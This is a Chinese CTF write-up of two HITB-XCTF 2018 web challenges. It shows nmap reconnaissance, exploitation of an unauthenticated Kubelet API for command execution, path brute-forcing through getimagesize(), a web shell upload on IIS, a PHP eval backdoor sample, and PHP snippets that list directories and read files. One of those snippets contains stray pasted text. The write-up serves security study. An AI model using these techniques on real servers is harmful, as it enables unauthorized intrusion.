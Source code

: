 ```yaml
---
title: HITBXCTF2018-Baby baby && upload
date: 2018-04-18 20:43:33
tags:
	- CTF
	- Writeup
---
```

前几天在HITBXCTF划了波水，就做出了几个水题，不过题目考察的东西还是挺新的，写个Writeup记一下。
<!-- more -->
### 1. Web-Baby baby

#### 1.1 题目要求
```
This is a pentest challenge, target 47.75.146.42
http://47.75.146.42
```



### 1.2 解题步骤

直接访问没啥有价值的东西，使用Nmap扫描端口

命令：
```
nmap -v -sV -p- 47.75.146.42
```

结果
```
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http          nginx 1.12.2
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
8009/tcp  closed ajp13
9999/tcp  open   http          nginx 1.12.2
10250/tcp open   ssl/unknown
```

大致测了测，9999端口不解析php，
直接访问：`http://47.75.146.42:9999/index.php`

下载`index.php`
```php+HTML
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

<?php
    eval($__POST["backdoor"]);
?>
```
没啥用，查10250端口,找到一篇博客，上面写得很详细，直接利用。

```
https://ricterz.me/posts/Security%20Issues%20of%20Kubelet%20HTTP%28s%29%20Server
```

通过 /runningpods 获取正在运行的 Pod 列表：
```
https://47.75.146.42:10250/runningpods
```

![](https://image.mengsec.com/HITBCTF2018-Web-baby-1.png)

然后有命令执行漏洞，可以在容器里执行命令。一个个找flag

![](https://image.mengsec.com/HITBCTF2018-Web-baby-2.png)

在根目录发现flag.txt,直接读取

![](https://image.mengsec.com/HITBCTF2018-Web-baby-3.png)

HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


### 2. Web-Upload

#### 2.1 题目要求
```
Get shell !
http://47.90.97.18:9999
```
题目环境是Windows IIS7.0+php
直接右键查看源代码，发现提示。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-1.png)
```php+HTML
<!--pic.php?filename=default.jpg-->
```
访问一下，会返回default.jpg的长和宽


随便找个文件上传，回显了一个文件名。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-2.png)

令filename=返回的文件名，会给出上传图片的长和宽。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-3.png)

看样子后台用函数getimagesize()来处理文件，但是PHP中getimagesize()函数有漏洞，这和前几天dedecms爆后台目录的原理一眼，详情
```
http://www.freebuf.com/column/164698.html
```

然后可以借助pic.php的功能来穷举出上传文件的目录，由于爆破的人太多，使用burp单线程进行爆破，如图，这样就知道目录第一个字符是8,依次往后一位位找。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-4.png)

最后就能得到文件上传的目录
```
?filename=..\..\..\..\..\..\inetpub\wwwroot\87194f13726af7cee27ba2cfe97b60df\1523619718.png
```
![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-5.png)

然后就可以直接上传shell。

> 参考链接：https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

利用Windows系统特性，构造：

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-6.png)

直接上传后，访问，成功解析。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-7.png)

在phpinofo()中查看被禁用的函数
```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```
构造代码列出目录文件。
```php
function listDirFiles($DirPath){ 
    if($dir = opendir($DirPath)){ 
         while(($file = readdir($dir))!== false){ 
                if(!is_dir($DirPath.$file)) 
                { 
                    echo "filename: $file<br />"; 
                } 
         } 
    } 
}
listDirFiles('c:/Inetpub/wwwroot/');
```
利用hackbar进行URL编码后上传。发现有flag.php

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-8.png)

再构造代码
```php
<?php
  $filename = "c:/Inetpub/wwwroot/flag.php";
  $handle = fopen($filename, "r");
  $contents = fread($h![image](https://note.youdao.com/favicon.ico)andle, filesize($filename));
  echo $contents;
  fclose($handle);
?>
```
![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-9.png)

成功获取flag